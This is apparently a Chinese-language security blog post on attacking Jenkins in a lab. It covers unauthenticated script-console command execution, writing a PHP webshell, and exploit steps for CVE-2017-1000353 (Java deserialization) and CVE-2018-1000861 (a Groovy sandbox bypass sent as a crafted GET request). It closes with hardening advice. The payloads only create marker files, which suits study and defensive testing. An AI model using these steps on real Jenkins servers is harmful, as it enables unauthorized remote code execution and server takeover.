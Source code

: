 # Jenkins一些安全问题



#### 漏洞简介及危害
默认情况下 Jenkins面面板中用户可以选择执行脚本界面来操作一些系统层命令,攻击者可通过未授权访问漏洞或者暴力破解用户密码等进入后台管理服务,通过脚本执行行界面从而获取服务器权限。


#### 环境搭建
```bash
# 下载地址： https://www.jenkins.io/download/
# 可以直接下载war包
java -jar jenkins.war    # 运行
# 
wget http://mirrors.jenkins.io/debian/jenkins_1.621_all.deb # 下载
dpkg -i jenkins_1.621_all.deb # 安装
sudo apt-get -f --fix-missing install # 如果有报依赖项的错误时执行行行
service jenkinis start    # 开启Jenkins服务

浏览器器访问http://192.168.0.100:8080/
```


#### 未授权访问测试
访问`http://192.168.0.100:8080/manage`可以看到没有任何限制可以直接访问


#### Jenkins未授权访问写shell
1.点击“脚本命令行”
![](http://image.xpshuai.cn/Jenkins_consele.png)

2.执行系统命令
```bash
println "whoami".execute().text
```
 3.利用“脚本命令行”写webshell,(`需要一定的权限且知道网站绝对路径`)，点击运行,写入成功
```bash
new File ("/var/www/html/shell.php").write('<?php phpinfo(); ?>');
```
![](http://image.xpshuai.cn/Jenkins_cmd.png)

4.访问shell.php， 测试成功
![](http://image.xpshuai.cn/Jenkins_shell.png)



####  CVE-2017-1000353
>这是一个java反序列化漏洞

执行如下命令启动jenkins 2.46.1：
```bash
docker-compose up -d
```
等待完全启动成功后，访问`http://your-ip:8080`即可看到jenkins已成功运行，无需手工安装。

###### 原理
参考：   https://blogs.securiteam.com/index.php/archives/3171

###### 测试
1.生成序列化字符串
```bash
# 参考 https://github.com/vulhub/CVE-2017-1000353
# 首先下载POC生成工具：   https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar

# 执行下面命令，生成字节码文件
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touc /tmp/success" 
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
# 生成jenkins_poc.ser文件，这就是序列化字符串。
```

2.生成jenkins_poc.ser文件，这就是序列化字符串。
```bash
# 下载 https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py
# Python3执行
python3 exploit.py http://192.168.0.100:8080 jenkins_poc.ser    # 将刚才生成的字节码文件发送给目标
```

3.进入docker容器发现文件创建成功


#### CVE-2018-1000861
Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。
通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。


###### 测试
执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：
```bash
docker-compose up -d
```

使用 @orangetw 给出的[一键化POC脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可成功执行命令：
```bash
http://192.168.0.100:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}

# 请求替换到burp拦截的数据包中
```
数据包如下
```
GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}} HTTP/1.1
Host: 192.168.0.100:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID.a3c40b9a=node010r4vkf3cix27hr5qd9qvw5y41.node0; screenResolution=1920x1080
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

进入容器: `docker-compose exec jenkins bash`,看到 /tmp/success文件创建成功
![](http://image.xpshuai.cn/Jenkins_poc_ok.png)



#### 配置方面的安全问题
1.允许任意账户注册 带来的安全问题
![](http://image.xpshuai.cn/Jenkins_reg_any.png)
关闭用户注册
![](http://image.xpshuai.cn/Jenkins_reg.png)

2.允许匿名访问带来的问题
建议关闭
![](http://image.xpshuai.cn/Jenkins_nologin.png)




jenkins的日志功能不是很好（可以使用代理，并进行操作的记录）


#### 安全建议
- 使用最新版的jenkins
- 关闭匿名访问
- 关闭用户注册功能
- 用户严格授权
- 最小化插件，相关插件使用最新版
- 使用nginx代理jenkins，不要直接暴露在公网




参考：https://www.secpulse.com/archives/2166.html




---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/jenkins%E4%B8%80%E4%BA%9B%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/  


